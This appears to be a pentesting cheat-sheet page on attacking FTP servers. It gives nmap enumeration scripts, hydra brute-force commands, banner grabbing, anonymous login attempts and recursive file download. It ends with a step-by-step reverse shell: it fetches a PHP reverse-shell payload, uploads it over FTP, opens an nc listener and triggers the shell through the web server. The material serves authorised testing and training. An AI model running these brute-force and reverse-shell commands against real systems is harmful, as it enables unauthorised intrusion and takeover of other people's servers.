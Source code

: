 ```yaml
---
title: File Transfer Protocol (FTP) Pentesting
desc: Default port is 21.
tags: [20, 21, FTP, Hydra, Netcat, Network, Nmap, Web]
alts: [Reverse-Shell]
render_with_liquid: false
---
```


## Enumeration

- **Nmap**

    ```sh
    nmap --script ftp-anon -p 21 <target-ip>
    nmap --script ftp-vuln* -p 21 <target-ip>
    nmap --script ftp-* -p 21 <target-ip>
    ```

- **Brute Force Credentials**

    ```sh
    hydra -l username -P passwords.txt <target-ip> ftp
    hydra -L username.txt -p password <target-ip> ftp

    hydra -l username -P passwords.txt ftp://<target-ip>
    hydra -L usernames.txt -p password ftp://<target-ip>
    ```

<br />

## Investigation

- **Banner Grabbing**

    ```sh
    nc <target-ip> 21
    ```

    - **OpenSSL**

        First off, open listener.

        ```sh
        nc -vn <target-ip> 21
        ```

        Then run the command below.

        ```sh
        openssl s_client -connect <target-ip>:21 -starttls ftp
        ```

<br />

## Connect FTP

```sh
ftp username@10.0.0.1
```

Sometimes you might be able to the **anonymous** login.  
Not likely, but worth a try.

```
ftp 10.0.0.1 
username: anonymous
password: anonymous
```

<br />

## Operations in FTP

If you can connect FTP, search directories and files, then download them to your local machine.

- **Investigation**


    ```sh
    ftp> pwd
    ftp> cd
    ftp> ls
    ```

- **Transfer Files**

    To transfer files to local machine,

    ```sh
    ftp> get sample.txt

    # recursive
    wget -r --user='username' --password='password' ftp://<target-ip>/sample
    ```

<br />

## Reverse Shell over FTP

If the target website allows users to access the ftp directory, you can upload the exploit for the reverse shell and get a shell.  

1. **Download the Payload**

    Get the payload for the reverse shell from [this repository](https://github.com/pentestmonkey/php-reverse-shell){:target="_blank"}{:rel="noopener"}.

    ```sh
    wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

    # Edit some variables
    $ip = '<your-local-ip>';
    $port = 1234;
    ```

2. **Upload the Payload to FTP Directory**

    Connect to FTP and upload.

    ```sh
    ftp username@<target-ip>

    # Upload the payload you downloaded
    ftp > put shell.php
    ```

3. **Get a Shell**

    At first, you need to open listener in your local machine.

    ```sh
    nc -lvnp 1234
    ```

    In a web browser, access to "http://vulnerable.com/path/to/ftp/shell.php".  
    You should get a target shell.
